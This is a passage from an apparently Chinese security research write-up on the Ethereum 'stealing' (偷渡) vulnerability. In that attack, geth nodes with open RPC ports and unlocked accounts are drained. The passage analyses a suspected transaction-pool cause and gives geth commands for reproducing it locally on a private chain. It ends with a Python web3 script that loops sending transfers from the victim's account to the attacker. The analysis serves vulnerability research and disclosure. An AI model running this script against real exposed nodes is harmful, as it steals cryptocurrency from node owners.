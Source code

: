 在部分 pendding 的交易完成后，剩余的交易将会继续消失。

这也就意味着，如果攻击者能够在利用 偷渡漏洞 的过程中，在交易被打包进区块，账号状态发生改变前发送大量的交易信息，第一条交易会被立即实行，剩余的交易会在 受害人账号余额 大于 转账金额+gas消耗的金额 的时候继续交易，而且这个交易信息在大多数情况下不会被查到。

对于这个问题进行分析研究后，我们认为可能的原因是：以太坊在同步交易缓存池的过程中可能因为网络波动、分布式的特点等原因，导致部分交易多次进入交易缓存池。这也导致 部分应该被移出交易缓存池的交易 多次重复进入交易缓存池。

具体的攻击流程如下：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://images.seebug.org/content/images/2018/08/76a0962f-f1e5-4a78-82c1-c9f124433ca9.png-w331s)

#### 3.2.2 本地复现过程

> 关于 3.2.1 节中出现的现象，笔者进行了多方面的猜测。最终在低版本的 geth 中模拟复现了该问题。但由于现实环境的复杂性和不可控性，并不能确定该模拟过程就是造成该现象的最终原因，故该本地复现流程仅供参考。

攻击复现环境位于私链中，私链挖矿难度设置为 0x400000，保证在挖出区块之前拥有足够的时间检查各节点的交易缓存池。geth的版本为 1.5.0。

被攻击者的节点A：通过 geth –networkid 233 –nodiscover –verbosity 6 –ipcdisable –datadir data0 –rpc –rpcaddr 0.0.0.0 console 启动。

矿机节点B，负责挖矿： 通过 geth –networkid 233 –nodiscover –verbosity 6 –ipcdisable –datadir data0 –port 30304 –rpc –rpcport 8546 console 启动并在终端输入 miner.start(1)，使用单线程进行挖矿。

存在问题的节点C：通过 geth –networkid 233 –nodiscover –verbosity 6 –ipcdisable –datadir data0 –port 30305 –rpc –rpcport 8547 console 启动。

各节点启动后通过 admin.nodeInfo 和 admin.addPeer() 相互添加节点。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://images.seebug.org/content/images/2018/08/7fe48419-4e4b-4ecb-acc7-647373c964de.png-w331s)

1.攻击者扫描到被攻击节点A开放了rpc端口，使用如下代码开始攻击：

```
import time
from web3 import Web3,HTTPProvider
web3 = Web3(HTTPProvider("http://172.16.4.128:8545/"))
web3.eth.getBalance(web3.eth.accounts[0])
while True:
        try:
                for i in range(3):
                        web3.eth.sendTransaction(`{`
                                "from":web3.eth.accounts[0],
                                "to":web3.eth.accounts[1],
                                "value": 1900000000000000000000000,
                                "gas": 21000,
                                "gasPrice": 10000000000000`}`)
                break
        except:
                time.sleep(1)
                pass
```
